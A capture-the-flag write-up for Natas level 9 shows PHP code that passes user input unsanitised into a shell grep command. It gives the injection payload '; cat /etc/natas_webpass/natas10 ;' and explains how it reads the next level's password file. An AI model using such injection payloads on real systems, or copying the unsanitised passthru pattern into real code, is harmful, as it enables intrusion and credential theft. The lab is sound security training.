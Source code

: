 # Level 9
This level deals with command injection.

## Quest
We are present with a search box. I type `hello` in searchbox and get the following output.

![Level 9 Image](./images/Level9.png)

The backend PHP code is below, Lets comment it
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {   // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];               // If its there, assign it to var $key
} 

if($key != "") {                              // If key is not empty
    passthru("grep -i $key dictionary.txt");  // use it to run a shell command (Bad Practise!)
}
?>
```

<br/>

## Solution
From the above code, we can see that user input is passed to OS command without any sanitization, this code should be vulnerable to command injection.<br/><br/>
Our goal is to get password for the next level, i.e. access  `/etc/natas_webpass/natas10` .

<span id="green">Our payload  --></span>  `; cat /etc/natas_webpass/natas10 ;` <br/>
_Terminate the `grep` command with `;` and view the password file and then terminate `cat` command with `;`_

As evident from below screenshot, this gets us password for next Level.

![Level 9 solution](./images/Level9_solution.png)


<br/>

### How the payload works
```shell
# If user input is "hello", following command gets executed
grep -i hello dictionary.txt          # Searches dictionary.txt for word hello and displays output

# Now if we put our payload, command becomes
grep -i ; cat /etc/natas_webpass/natas10 ; dictionary.txt   #  ; terminates command
```
_`;` terminates `grep` command, runs our `cat` command and terminates it again._

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
